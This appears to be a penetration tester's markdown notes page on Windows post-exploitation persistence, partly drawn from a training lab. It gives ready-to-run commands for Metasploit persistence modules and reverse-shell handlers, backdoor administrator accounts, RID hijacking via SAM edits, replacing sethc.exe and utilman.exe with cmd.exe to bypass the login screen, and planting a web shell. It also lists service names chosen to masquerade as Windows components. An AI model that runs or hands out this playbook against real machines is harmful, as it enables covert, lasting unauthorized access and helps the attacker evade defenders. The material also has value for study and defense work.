



# Windows

## Metasploit Modules

### &#x20;How to use peristence modules afte deploy

```
use exploit/multi/handler
```

* set the LPORT we used
* set lhost ip or eth1&#x20;


The handler we will keep trying until it gets a connection


### Modules

```
exploit/windows/local/persistence
```

* **Purpose**: Sets up full persistence via registry and script.
* **Technique**: Adds a payload (like a reverse shell) to `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`.


Not very reliable requier computer to restart to work


⚠️ **Disadvantages of `exploit/windows/local/persistence`**

#### 1. 🧼 **Easily Detectable**

* **Registry keys** (like `Run`) and **scripts** dropped to disk are **well-known** to defenders and security software.
* **AV/EDR solutions** often flag the payloads and registry modifications almost instantly.

#### 2. 🔊 **Noisy Behavior**

* Drops a `.vbs` or `.bat` script to disk and modifies registry.
* File and registry activity creates a lot of **telemetry** (logged by Sysmon, EDRs, Windows Defender).

#### 3. 🪟 **Only Works on Interactive Desktop Sessions**

* Requires a **meterpreter session** running in the **context of an interactive user**.
* Doesn’t work well for SYSTEM sessions or non-interactive shells.

#### 4. 🧍 **Tied to User Account**

* If persistence is set via `HKCU`, it's only for **one user**.
* Logging in as another user won't trigger the payload.

#### 5. 🛡️ **No Obfuscation or Evasion**

* Payload is dropped **as-is**.
* No encoding, encryption, or AV evasion — can be caught by basic signature-based scanners.

#### 6. 🔁 **Creates Redundant Processes**

* Multiple persistence attempts can result in **duplicate tasks or registry keys**, making detection easier.
* No cleanup mechanism by default unless manually removed.

#### 7. 📁 **Static File Paths**

* Drops payloads to default locations (e.g., `C:\Users\Public\`) which are **commonly monitored**.

***

```
exploit/windows/local/persistence_service 
```

#### 📌 **Purpose:**

Creates a **Windows service** that launches a malicious payload (e.g., Meterpreter) **every time the computer starts**.

⚙️ **How It Works**

1. Uploads a **payload executable** (e.g., reverse shell).
2. Registers a **Windows service** that runs that EXE at startup.
3. The service is configured to start **automatically** with the OS (even before a user logs in).

✅ **Advantages**

| Advantage                        | Description                                                                    |
| -------------------------------- | ------------------------------------------------------------------------------ |
| 💻 **Runs before user login**    | Triggered at system boot, not tied to user sessions                            |
| 🔄 **Persistent across reboots** | Survives restart, stays active unless removed                                  |
| 🧑‍🔧 **Runs as SYSTEM**         | If exploited with SYSTEM-level access, the service runs with SYSTEM privileges |
| 🛠️ **Stealthier than Run key**  | Services are harder to spot than registry keys or VBS scripts                  |
| 👥 **Affects all users**         | Not limited to a single user like `HKCU` registry keys                         |

❌ **Disadvantages / Detection Risks**

| Disadvantage                            | Description                                                   |
| --------------------------------------- | ------------------------------------------------------------- |
| 🛡️ **Highly detectable**               | Creating a rogue service can trigger AV/EDR alerts            |
| 📁 **Drops EXE to disk**                | Payload stored in a known location (e.g., `C:\Windows\Temp\`) |
| 📝 **Service name may look suspicious** | Can show up in `services.msc` or `sc query`                   |
| 🧹 **Manual cleanup needed**            | Doesn’t remove itself unless you script it to do so           |

✅ **Good (Stealthy) SERVICE\_NAME**

| Service Name      | Display Name                  | Why It Works                        |
| ----------------- | ----------------------------- | ----------------------------------- |
| `WinUpdateSvc`    | Windows Update Helper         | Mimics Windows Update               |
| `W32TimeSvc`      | Windows Time Sync             | Close to real `W32Time`             |
| `SysTaskMgr`      | System Task Manager           | Sounds legit, mimics system utility |
| `SecurityHealth`  | Windows Security Monitor      | Looks like built-in Defender        |
| `SpoolSubSystem`  | Print Spooler Support Service | Sounds like legit spooler           |
| `LSMHelper`       | Local Session Manager Helper  | Mimics real `LSM`                   |
| `WinLogonAssist`  | Windows Logon Support         | Close to `Winlogon`                 |
| `RPCSSHost`       | Remote Procedure Call Helper  | Close to real `RPCSS`               |
| `ShellHostHelper` | Windows Shell Integration     | Ambiguous and tech-sounding         |
| `IntelNetService` | Intel Network Service         | Blends with drivers/OEM stuff       |

***

## &#x20;Enabling RDP

```
post/windows/manage/enable_rdp
```

### ✅ **Purpose**:

This module **enables Remote Desktop** on a compromised Windows machine so you can connect using tools like **Remote Desktop Connection (mstsc)**.

### 🧠 **How It Works**

The module:

* Enables RDP via registry edits.
* Configures the system to **allow remote desktop connections**.
* Starts the RDP service if it’s not already running.
* Optionally **adds a user to the Remote Desktop Users group**.

### ⚠️ **Considerations**

| Risk                         | Description                                                                           |
| ---------------------------- | ------------------------------------------------------------------------------------- |
| 🔊 **Loud**                  | Enabling RDP and creating users may be logged (especially in enterprise environments) |
| 🔒 **Firewall**              | Port 3389 must be open. May need to open it manually via `netsh`.                     |
| 👁️‍🗨️ **EDR/AV detection** | These changes can trigger alerts if monitored                                         |

### 🧪 Want to Manually Enable RDP?

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```

Change admin password(NOT Recommend)

```bash
net user <name> <newpass>
```

### Connecting after deploiyng

```
xfreerdp /u:NAME /p:PASS
```

## &#x20;Via Services

***

## Account Tampering

**Account tampering for persistence** in Windows involves creating or modifying user accounts to maintain access to a system. An attacker with administrative privileges can create a new user, set a password, and add that user to privileged groups like **Administrators** or **Backup Operators**. This ensures the account can log in even if malware is removed or other access points are closed. Since Windows doesn’t prompt for a password in these commands, the attacker sets it directly when creating the user. This technique is subtle, because it leverages built-in account management features, making it harder to detect unless administrators regularly audit user accounts and group memberships.


**We must admin privs to perform this.**


Viwe users

```
net user
```

1\) Create user

```
net user hacker P@ssw0rd /add
```

* `hacker` → username
* `P@ssw0rd` → password

2\) Add user to group

```bash
net localgroup "Backup Operators" alice add
```

* `"Backup Operators"` → Name of the group (quotes are needed because of the space).
* `Alice` → Name of the user you want to add.
* `/add` → Tells Windows to add the user to that group.

3\) Now we login every time using winrm

```bash
evil-winrm -i <TARGET-IP> -u <USERNAME> -p <PASSWORD>
```

Backup Operators

**Backup Operators** is a built-in Windows group whose members can **back up and restore files regardless of permissions**. They don’t have full admin rights but can read/write any file during backup/restore. Attackers sometimes use this group to access sensitive data or escalate privileges.

## RID Hijacking

When a user is created, an identifier called **Relative ID (RID)** is assigned to them. The RID is simply a numeric identifier representing the user across the system. When a user logs on, the LSASS process gets its RID from the SAM registry hive and creates an access token associated with that RID. If we can tamper with the registry value, we can make windows assign an Administrator access token to an unprivileged user by associating the same RID to both accounts.


**In any Windows system, the default Administrator account is assigned the RID = 500, and regular users usually have RID >= 1000.**


To find the assigned RIDs for any user, you can use the following command:

```bash
C:\> wmic useraccount get name,sid

Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
Guest               S-1-5-21-1966530601-3185510712-10604624-501
thmuser1            S-1-5-21-1966530601-3185510712-10604624-1008
thmuser2            S-1-5-21-1966530601-3185510712-10604624-1009
thmuser3            S-1-5-21-1966530601-3185510712-10604624-1010
```

Now we only have to assign the RID=500 to thmuser3. To do so, we need to access the SAM using Regedit. The SAM is restricted to the SYSTEM account only, so even the Administrator won't be able to edit it. To run Regedit as SYSTEM, we will use psexec, available in `C:\tools\pstools` in your machine:

```
C:\tools\pstools> PsExec64.exe -i -s regedit
```

From Regedit, we will go to `HKLM\SAM\SAM\Domains\Account\Users\` where there will be a key for each user in the machine. Since we want to modify thmuser3, we need to search for a key with its RID in hex (1010 = 0x3F2). Under the corresponding key, there will be a value called **F**, which holds the user's effective RID at position 0x30:

<figure><figcaption></figcaption></figure>

Notice the RID is stored using little-endian notation, so its bytes appear reversed.

We will now replace those two bytes with the RID of Administrator in hex (500 = 0x01F4), switching around the bytes (F401):<br>

<figure><figcaption></figcaption></figure>

## Backdooring the Login Screen

**Sticky Keys**

<figure><figcaption></figcaption></figure>

After pressing `SHIFT` 5 times, Windows will execute the binary in `C:\Windows\System32\sethc.exe`. If we are able to replace such binary for a payload of our preference, we can then trigger it with the shortcut. Interestingly, we can even do this from the login screen before inputting any credentials.

A straightforward way to backdoor the login screen consists of replacing `sethc.exe` with a copy of `cmd.exe`. That way, we can spawn a console using the sticky keys shortcut, even from the logging screen.

To overwrite `sethc.exe`, we first need to take ownership of the file and grant our current user permission to modify it. Only then will we be able to replace it with a copy of `cmd.exe`. We can do so with the following commands:

```bash
C:\> takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes
        1 file(s) copied.
```

## &#x20;Utilman

<figure><figcaption></figcaption></figure>

When we click the ease of access button on the login screen, it executes `C:\Windows\System32\Utilman.exe` with SYSTEM privileges. If we replace it with a copy of `cmd.exe`, we can bypass the login screen again.

To replace `utilman.exe`, we do a similar process to what we did with `sethc.exe`:

```bash
C:\> takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes
        1 file(s) copied.
```

## Using Web Shells (Web Servers)

by uploading a web shell to the web directory

```shell-session
C:\> move shell.aspx C:\inetpub\wwwroot\
```

<figure><figcaption></figcaption></figure>



## MSSQL as a Backdoor

## Backdooring Files

## Abusing Services

Creating backdoor services

## Logon Triggered Persistence

## Abusing Scheduled Tasks
